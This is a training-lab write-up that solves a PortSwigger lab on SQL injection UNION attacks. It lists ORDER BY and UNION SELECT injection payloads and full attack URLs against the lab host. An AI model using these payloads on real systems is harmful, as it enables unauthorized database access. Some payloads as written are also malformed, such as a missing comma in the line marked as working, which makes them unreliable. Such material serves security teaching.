


## LAB 2: SQL injection UNION attack, finding a column containing text
[SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a `UNION` attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection `UNION` attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Solution

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to return the random value(`opcYVA`) in one of the fields

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--`
`' ORDER BY 4--`

On the last paramter where we order by 4 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 3.

FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' ORDER BY 4--`

### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL,NULL--`
`' UNION SELECT NULL'abc',NULL--` - WORKS!
`' UNION SELECT NULL,NULL'abc'--`

FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'ABC',NULL--`

### 3. Return NULL feild
We can now use `UNION` attack to return the random value with the NULL fields.

`' UNION SELECT NULL,NULL,NULL--`

FULL URL: `https://ac761fff1f813142c0896b7a00dd0087.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'opcYVA',NULL--`

<!-- EOF -->